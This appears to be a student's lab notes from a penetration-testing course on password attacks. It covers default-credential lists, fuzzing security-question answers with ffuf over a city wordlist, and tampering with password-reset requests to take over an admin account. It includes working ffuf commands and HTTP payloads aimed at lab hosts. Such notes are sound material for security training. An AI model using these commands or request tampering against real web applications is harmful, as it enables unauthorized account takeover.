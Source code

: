 # 👩‍🦰 Password Attacks

## Default Credentials

Many web applications are set up with default credentials to allow accessing it after installation. However, these credentials need to be changed after the initial setup of the web application

Here are lists of default credentials for a wide variety of web applications: [CIRT.net](https://www.cirt.net/passwords) also [SecLists Default Credentials](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials) as well as the [SCADA](https://github.com/scadastrangelove/SCADAPASS/tree/master) GitHub

let's imagine the following web app:

<figure><img src="../../../.gitbook/assets/image (17) (3).png" alt=""><figcaption></figcaption></figure>

We can spot it's a bookstack web app, we can then go and see if we can't find some default creds online ->

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Password Reset

### Guessable Password Reset

We could imagine questions like the following:

* "`What is your mother's maiden name?`"
* "`What city were you born in?`"

Then it's on us to chase for the good wordlist such as [this](https://github.com/datasets/world-cities/blob/master/data/world-cities.csv) CSV file contains a list of more than 25,000 cities with more than 15,000 inhabitants from all over the world.

```shell-session
cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
wc -l city_wordlist.txt 
```

so let's imagine after entering our username wer got asked a question, it would look like this:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and now it's on us to craft a payload:

```shell-session
ElFelixi0@htb[/htb]$ ffuf -w ./city_wordlist.txt -u http://pwreset.htb/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "Incorrect response."

<SNIP>

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 0ms]
    * FUZZ: Houston
```

and then we can reset password

But let's imagine we had a nice osint phase, we could pretty much guess from which country is the person from the website or the social media, we can go deaper and make a more accurate list:

```shell-session
cat world-cities.csv | grep Germany | cut -d ',' -f1 > german_cities.txt
```

### Manipulating the Reset Request

let's imagine the following:

<figure><img src="../../../.gitbook/assets/image (1355).png" alt=""><figcaption></figcaption></figure>

```http
POST /reset.php HTTP/1.1
Host: pwreset.htb
Content-Length: 18
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

username=htb-stdnt
```

after that we have the security question ->

```http
<SNIP>
security_response=London&username=htb-stdnt
```

Finally, we can reset the user's password:&#x20;

```http
<SNIP>
password=P@$$w0rd&username=htb-stdnt
```

We can imagine that we can skip the security question and set the password of an entirely different account

```http
password=P@$$w0rd&username=admin
```

_**Which city is the admin user from?**_

<figure><img src="../../../.gitbook/assets/image (1356).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1357).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1358).png" alt=""><figcaption></figcaption></figure>

```
ffuf -w city_wordlist.txt -u http://94.237.59.63:43371/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=j0527s0oqrj0q0s6qh30c626ma" -d "security_response=FUZZ" -fr "Incorrect response."
```

<figure><img src="../../../.gitbook/assets/image (1359).png" alt=""><figcaption></figcaption></figure>
